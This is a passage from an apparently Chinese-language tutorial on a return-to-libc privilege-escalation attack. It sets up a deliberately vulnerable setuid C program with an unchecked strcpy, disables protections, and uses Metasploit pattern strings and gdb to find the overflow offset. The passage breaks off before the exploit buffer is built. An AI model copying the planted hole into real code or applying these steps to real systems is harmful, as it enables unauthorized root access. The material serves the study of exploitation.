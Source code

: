 现在我们就成功获取了目标程序中POP/RET指令的地址了。

至此利用execl的整个攻击逻辑和关键技术点，就介绍完毕了，下面我们找个例子进行实际操作。

## 0x04 实战演练

含有缓冲区溢出漏洞的程序源代码如下：

```
#!cpp
/*vuln.c*/
#include <stdio.h>

/*small buffer vuln prog*/
int main(int argc, char* argv[]) {
    char buffer[7];
    strcpy(buffer, argv[1]);
    return 0;
} 
```

我们关闭系统的ASLR保护机制之后，再使用root用户编译：

```
#!bash
# gcc  -fno-stack-protector  -o  vuln  vuln.c 
```

然后添加SET-UID： `# chmod u+s vuln`

然后退出root用户，切换到普通用户模式： `# exit`

现在我们可以开始以普通用户权限进行提权攻击了！整个攻击工作可以分为两个大的步骤：1)确定漏洞buffer的大小；2)开始构建攻击buffer。

### 4.1 确定漏洞buffer大小

为方便快速确定大小，我们可以借助metasploits提供的pattern_create.rb和pattern_offset脚本。前者用于生成特殊的输入数据，后者用于帮助确定指定数据在该输入数据中的偏移值。

pattern_create.rb的使用方式如下：

```
#!bash
Usage: pattern_create.rb length [set a] [set b] [set c] 
```

这里我们使用pattern_create.rb 250生成250字节的输入数据:

```
#!bash 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A 
```

然后使用gdb调试目标程序：

```
#!bash
[email protected]

:~/security/flaws/return2libc$ gdb ./vuln -q Reading symbols from ./vuln...(no debugging symbols found)...done. &gt;&gt;&gt; r Aa0……i2A
```
